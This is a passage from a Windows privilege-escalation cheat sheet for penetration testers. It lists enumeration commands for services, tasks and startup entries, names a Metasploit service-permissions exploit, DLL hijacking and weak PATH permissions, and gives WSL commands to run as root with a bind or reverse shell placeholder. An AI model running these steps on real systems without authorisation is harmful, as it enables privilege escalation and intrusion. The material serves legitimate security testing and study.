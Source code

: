 ##### Running Processes
- tasklist /v
- net start
- sc query
- Get-Service
- Get-Process
- tasklist /v /fi "username eq system"

##### Powershell
- REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion

##### Installed Programs
- Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
- Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name

##### List services
- net start
- wmic service list brief
- tasklist /SVC

##### Scheduled Tasks
- schtasks /query /fo LIST 2>nul | findstr TaskName
- schtasks /query /fo LIST /v > schtasks.txt; cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
- Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State

##### Startup Tasks
- wmic startup get caption,command
- reg query HKLM\Software\Microsoft\Windows\CurrentVersion\R(Run/RunOnce)
- dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"



### 4. EOP : Incorrect/Weak permissions in services

##### Metasploit exploit : exploit/windows/local/service_permissions

##### Services pointing to writeable locations:
1.	Orphaned installs, not installed anymore but still exist in startup
2.	DLL Hijacking
3.	PATH directories with weak permissions

### 5.	EOP : Windows Subsystem for Linux (WSL)

##### Commands
1.	wsl whoami
2.	./ubuntun1604.exe config --default-user root
3.	wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'

##### Binary bash.exe 
- C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe
